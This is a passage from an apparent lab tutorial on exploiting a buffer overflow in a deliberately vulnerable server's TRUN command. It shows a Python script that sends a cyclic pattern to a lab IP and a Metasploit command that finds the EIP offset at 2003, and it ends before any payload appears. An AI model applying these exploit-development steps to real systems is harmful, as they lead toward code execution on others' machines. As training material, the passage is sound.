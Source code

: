```python
#!/usr/bin/python

import socket,sys

address = '192.168.136.130'
port    = 9999

#offset  = around 2100

pattern = b"Aa0Aa1Aa....7Cu8Cu9Cv0Cv1Cv2C"  # output of pattern_create.rb
buff    = b""              # empty byte var
buff    = b"%s" % pattern  # add pattern to buff

try:
    print(f'[+] Sending buffer: {str(len(buff))} bytes')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((address,port))
    s.recv(1024)
    s.send(b"TRUN /.:/%s" % buff)
except RuntimeError as Err:
    print(f'[!] Unable to connect to the application. {err}')
    sys.exit(0)
finally:
    s.close()

```

![Offest 1](images/BO_offset_1.png)

EIP value: 386f4337 (8oC7)

To find the offset we can use /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb

```bash
root@kali:/mnt/hgfs/_shared_folder/BO /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2200 -q 386f4337
[*] Exact match at offset 2003
```

#### Controlling the ESP
